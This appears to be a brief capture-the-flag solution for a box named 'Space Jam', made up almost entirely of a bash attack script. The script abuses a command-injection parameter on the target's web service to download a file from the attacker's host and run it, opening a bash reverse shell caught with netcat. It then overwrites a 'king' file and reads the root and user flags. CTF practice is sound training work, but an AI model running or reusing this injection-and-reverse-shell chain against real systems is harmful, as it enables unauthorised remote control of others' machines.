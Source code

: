 # Space Jam

```bash
echo "Host IP: "
read HOST_IP

echo "Target IP: "
read TARGET_IP

echo "bash -i >& /dev/tcp/$HOST_IP/1234 0>&1" > SHELL
bg python -m http.server 

curl http://$TARGET_IP:3000/?cmd=wget%20http://$HOST_IP:8000/SHELL

bg nc -lvnp 1234

curl http://$TARGET_IP:3000/?cmd=bash%20SHELL
```

## Flags
echo USERNAME > /root/king.txt

cat /root/root.txt

cat /home/jordan/user.txt
